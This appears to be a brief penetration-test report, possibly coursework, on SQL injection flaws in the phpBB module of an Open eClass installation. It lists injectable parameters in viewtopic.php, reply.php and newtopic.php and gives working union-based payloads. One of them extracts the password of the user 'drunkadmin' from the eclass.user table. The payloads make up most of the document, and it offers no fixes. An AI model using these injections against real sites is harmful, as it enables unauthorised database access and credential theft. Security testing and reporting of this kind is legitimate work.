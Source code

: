 # Security Rapport

## SQLi

### Tags
- Time-based -> T
- Boolean    -> B
- Union      -> U

### /modules/phpbb/
- `viewtopic.php`: ?topic=1&forum=1: topic param injectable: TBU
    -  **AND 12 = 13 ) UNION SELECT password, password FROM eclass.user WHERE username="drunkadmin" --+**

- `reply.php`: ?topic=1&forum=1: same as above.

- `newtopic.php`: ?subject=dasd&Dialog1=on&Dialog2=on&Dialog3=on&Dialog4=on&Dialog5=on&Dialog6=on&message=da&forum=1&submit=,
                    forum param injectable: TBU,
    - **subject=dasd&Dialog1=on&Dialog2=on&Dialog3=on&Dialog4=on&Dialog5=on&Dialog6=on&message=da&forum=-9196 UNION ALL SELECT CONCAT(0x7171767171,0x43586c6d6d437675427477685178697356526b754747774876676c514f4c616c454669716742744d,0x716b7a6271)-- -&submit=**
